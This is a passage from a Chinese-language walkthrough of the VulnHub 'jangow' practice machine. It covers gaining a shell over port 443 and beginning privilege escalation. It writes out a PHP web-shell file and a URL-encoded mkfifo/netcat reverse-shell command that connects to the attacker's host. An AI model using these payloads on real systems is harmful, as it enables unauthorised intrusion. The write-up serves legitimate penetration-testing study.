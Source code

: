 那么也就是，在靶机内，只要请求的外部资源是`443`端口的，就可以产生通信，也就是外部返回必须是`443`端口。

尝试在`kali`监听443端口，然后在靶机请求`kali`的443端口

因为之前测试，在蚁剑中是无法调用`sh`和`nc -e`的，那么可以通过写文件脚本，或者利用之前的命令执行链接进行反弹测试

## 获取反弹shell

比如这里在可访问的网站目录下，创建一个`php`脚本`ff.php`，然后在文件写入下面代码，为什么呢，因为测试多个，都没有反应

```shell
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.10.2 443 >/tmp/f');?>
```

这时候，再通过浏览器访问这个脚本，以触发，即可反弹

![](D:\stu\vulnhub\OSCP必刷靶场\jangow靶场\pic\22.jpg)

或者在之前默认的命令执行处，把上面的反弹`shell`代码进行一个编码处理，然后通过浏览器传参执行，也是可以的

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.10.2 443 >/tmp/f

#url编码处理
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20192.168.10.2%20443%20%3E%2Ftmp%2Ff
```

![](D:\stu\vulnhub\OSCP必刷靶场\jangow靶场\pic\23.jpg)

# 提权

获取到第一个`flag`

![](D:\stu\vulnhub\OSCP必刷靶场\jangow靶场\pic\24.jpg)



使用`find`寻找具有SUID权限文件，发现`sudo`，测试发现并不可用

![](D:\stu\vulnhub\OSCP必刷靶场\jangow靶场\pic\25.jpg)

查看靶机内用户，发现和之前查看`/etc/passwd`一样，只要`jangow01`，使用`su`切换后，使用上面的密码`abygurl69`，登录成功，不过就是执行`sudo`还是无权，寻找其他方式

查看操作系统信息及内核

![](D:\stu\vulnhub\OSCP必刷靶场\jangow靶场\pic\26.jpg)

使用`searchsploit`搜索有无内核漏洞，发现几个，不过经过测试，可用的只有这个

![](D:\stu\vulnhub\OSCP必刷靶场\jangow靶场\pic\27.jpg)

查看该文件，其中有用法，以及测试主机

![](D:\stu\vulnhub\OSCP必刷靶场\jangow靶场\pic\28.jpg)
